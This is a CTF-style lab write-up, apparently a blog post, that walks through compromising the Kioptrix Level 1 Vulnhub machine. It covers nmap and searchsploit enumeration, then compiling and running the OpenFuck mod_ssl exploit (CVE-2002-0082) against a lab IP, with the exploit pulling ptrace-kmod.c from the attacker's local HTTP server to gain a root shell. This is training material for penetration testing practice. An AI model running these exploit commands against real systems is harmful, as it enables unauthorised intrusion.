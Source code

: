 ```yaml
---
layout: post
title: "Kioptrix Level 1-1"
date: 2019-02-16 00:00:00 -0000
categories: [OSCP, apache, oppenssl, boot2root]
---
```

Vulnhub virtual machine; On the path to OSCP this box offered Apache/OpenSSL vulnerability which led to a custom version of the exploit and an environmental problem and solution. 


----------

Legal Usage:
*The information provided by executeatwill is to be used for educational purposes only. The website creator and/or editor is in no way responsible for any misuse of the information provided. All the information on this website is meant to help the reader develop penetration testing and vulnerability aptitude to prevent attacks discussed. In no way should you use the information to cause any kind of damage directly or indirectly. Information provided by this website is to be regarded from an “*[*ethical hacker*](https://www.dictionary.com/browse/ethical-hacker)*” standpoint. Only preform testing on systems you OWN and/or have expressed written permission. Use information at your own risk.*

*By continued reading, you acknowledge the aforementioned user risk/responsibilities.*


----------


# Initial setup:

This boot-2-root box is on the legacy side of things and there are a few things that need to be accomplished before you are able to boot this image (virtual box)


1. add Kioptix vmdk harddrive to storage as IDE (this box does NOT like SATA - will kernel panic)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550363040523_image.png)



2. disable audio

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550363076710_image.png)

3. change network adapter to PCnet-PCI II (AM79C970A) && Attached to Adapter

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550363130573_image.png)



4. disable usb

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550363207273_image.png)


With this configuration you should be able to properly boot the box.



----------

# Enumeration

Searching for target:

    netdiscover -r 192.168.56.0/24

*target looks to be 192.168.56.103*

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550363591282_image.png)


Perform NMAP scan:

    nmap -sC -sV -oA nmap/kio1 192.168.56.103

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550363637960_image.png)


*interesting to note that we have quite a few ports to examine.*

Since this is an older box lets search for any open vulnerabilites pertaining to the Apache and its mod_ssl 2.8.4 OpenSSL.

searchsploit

    searchsploit mod_ssl

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550364708694_image.png)


interesting candidate: *Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow* 

Based off the CVE: 2002-0082
There is a vulnerability pertaining to session cache code that fails to initialize memory using a special function that allows for a buffer overflow to execute arbitrary code. 

source: https://nvd.nist.gov/vuln/detail/CVE-2002-0082

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550365003778_image.png)


# Exploit
Copy the exploit locally:

    searchsploit -m exploits/unix/remote/764.c

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550365139174_image.png)


view source:

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550365290795_image.png)


*search for any random shell code and/if replace if needed.*

compile source code:

    gcc -o exploit 764.c -lcrypto

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550365592122_image.png)


*looks to be missing some dependencies.*

correction: above exploit requires updating and can be correctly found at this repository. 

    git clone https://github.com/heltonWernik/OpenFuck.git

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550367827580_image.png)


download the ptrace-kmod.c && start python SimpleHTTPServer in directory of file.

edit the external link at line 671


![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550369200447_image.png)


install dependencies:

    apt-get install libssl-dev

compile:

    gcc -o OpenFuck OpenFuck.c -lcrypto

Run exploit:

    ./OpenFuck

*Search for which service you are attempting to exploit. Use the following syntax to continue.*

    ./OpenFuck 0x6b \[Target Ip\] [port] -c 40

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550368047575_image.png)


Running exploit against box:

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550368200111_image.png)

    ./OpenFuck 0x6a 192.168.56.103 443 -c 50

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550369571756_image.png)


*hung awaiting the race condition of the exploit. Good to see the exploit be pulled from the SimpleHTTPServer.*

# Root - Plot Shift

change of plans: 
Reverted back to website which I know it wont be able to be reached. At that point I performed the steps manually to change the term and get a bash shell.


    TERM=xterm; export TERM=xterm; exec bash -i

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550370436781_image.png)


bring me the root!
